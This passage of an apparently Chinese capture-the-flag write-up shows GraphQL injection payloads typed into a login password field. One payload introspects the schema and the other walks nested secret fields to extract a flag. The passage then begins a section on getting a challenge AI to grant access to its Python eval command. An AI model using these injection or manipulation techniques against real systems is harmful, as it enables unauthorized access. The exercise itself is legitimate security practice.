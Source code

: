## Flag 2】并抢了【你的

先把表全部查出来吧：

```text
pass1") {
	login: __type(name: "Secret") {
		ok: kind
		isAdmin: kind
		username: fields { name type { name } }
	}
fake: #
```

喔唷，不查不知道一查吓一跳，[这表也太多太杂了](./附件/graphauth-secret.txt)！最开始我是用`Notepad--`手动找Flag，找了半天眼睛受不了了，于是让DeepSeek写了个脚本把原始文件转换成了[对眼睛更友好的形式](./附件/graphauth-secret.graphql)，这下用`Notepad--`查找就很方便了。提交POC：

```text
pass1") {
	login: secret {
		ok: __typename
		isAdmin: __typename
		username: secret_bph8 {
			username: secret_QDjC {
				username: secret_7XJb {
					username: secret_AefR {
						username: secret_3zwo {
							username: secret_1ErA {
								username: secret_jbG6 {
									username: flag2
                                }
							}
						}
					}
				}
			}
		}
	}
fake: #
```

所有POC都在密码框的位置单行提交。

> 恭喜【……】在【……一血榜】中拿到了题目【统一身份认证】的【Flag 2】并抢了【你的】一血！

> 这个题，如果没有源代码的话，想必难度会提升一个档次。

# EzMCP【web-ezmcp】

## Flag1之AI带师

阅读源代码，发现AI内置一个叫作`eval`的命令，可以在极度受限的环境下执行Python代码。重要的是，Python设置了变量`flag1`。因此，唯一的问题是如何让AI获得`eval`的权限。
